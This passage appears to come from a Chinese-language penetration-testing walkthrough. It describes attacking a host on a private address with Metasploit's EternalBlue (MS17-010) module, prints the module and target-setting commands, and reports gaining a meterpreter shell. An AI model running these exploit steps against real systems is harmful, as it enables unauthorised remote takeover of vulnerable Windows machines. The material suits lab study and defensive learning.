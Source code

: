 可以得到主机的一些基本情况。

尝试使用msf对它进行永恒之蓝攻击。

![image-20230503174308315](assets/image-20230503174308315.png)

使用ms17_010_eternalblue命令。

```
 use exploit/windows/smb/ms17_010_eternalblue
 set rhosts 192.168.1.253
```

运行成功后拿到meterpreter
